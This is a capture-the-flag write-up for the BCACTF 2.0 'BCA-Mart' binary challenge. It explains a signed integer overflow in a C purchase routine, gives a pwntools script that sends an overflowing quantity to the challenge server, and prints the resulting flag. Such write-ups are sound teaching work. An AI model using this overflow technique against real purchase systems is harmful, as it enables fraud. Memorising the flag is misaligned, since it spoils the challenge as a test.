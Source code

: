 # BCACTF 2.0 – BCA-Mart

* **Category:** Binex
* **Points:** 75
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> After the pandemic hit, everybody closed up shop and moved online. Not wanting to be left behind, BCA MART is launching its own digital presence. Shop BCA MART from the comfort of your own home today!

## Solution

The challenge page provides us with a [binary](Backup/bca-mart) and the [C code](Backup/bca-mart.c) it was compiled from.

Running the executable presents us with our current money($15), and a list of items we can purchase.
```C
        puts("1) Hichew™: $2.00");
        puts("2) Lays® Potato Chips: $2.00");
        puts("3) Water in a Bottle: $1.00");
        puts("4) Not Water© in a Bottle: $2.00");
        puts("5) BCA© school merch: $20.00");
        puts("6) Flag: $100.00");
        puts("0) Leave");
```

Number 6 appears to be the option to purchase the flag, but it costs more than we have available, let's have a look at the purchasing code.
```C
int purchase(char *item, int cost) {
    int amount;
    printf("How many %s would you like to buy?\n", item);
    printf("> ");
    scanf("%d", &amount);

    if (amount > 0) {
        cost *= amount;
        printf("That'll cost $%d.\n", cost);
        if (cost <= money) {
            puts("Thanks for your purchse!");
            money -= cost;
        } else {
            puts("Sorry, but you don't have enough money.");
            puts("Sucks to be you I guess.");
            amount = 0;
        }
    } else {
        puts("I'm sorry, but we don't put up with pranksters.");
        puts("Please buy something or leave.");
    }

    return amount;
}
```

The amount of flags we want to buy has to be larger than 0, so we can't buy zero or a negative amount of flags, and the item cost is not under our control. However, the code does the quantity * cost multiplication without any bounds checks, so entering a large enough quantity can cause the cost variable to overflow so it wraps around to being negative, which will pass the checks and this lets us buy the flag.

Entering a quantity between 21474837 and 2147483647 will work, as these will all end up overflowing the cost. I went with the maximum value a signed 32 bit integer can hold because this will cleanly overflow to cost the same as purchasing -1 flag, so $-100.00.

The script I used to solve the challenge is as follows;
```python
from pwn import *

#p = process('bca-mart')
p = remote('bin.bcactf.com', 49153)

p.sendline('6') # 6) Flag: $100.00
p.sendline('2147483647') # Maximum value a signed 32 bit integer can hold, to overflow cost

p.interactive()
```

This will output the following;
```
Welcome to BCA MART!
We have tons of snacks available for purchase.
(Please ignore the fact we charge a markup on everything)

1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $15.
What would you like to buy?
> How many super-cool ctf flags would you like to buy?
> That'll cost $-100.
Thanks for your purchse!
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}
...
```

So the flag for this challenge is:

`bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}`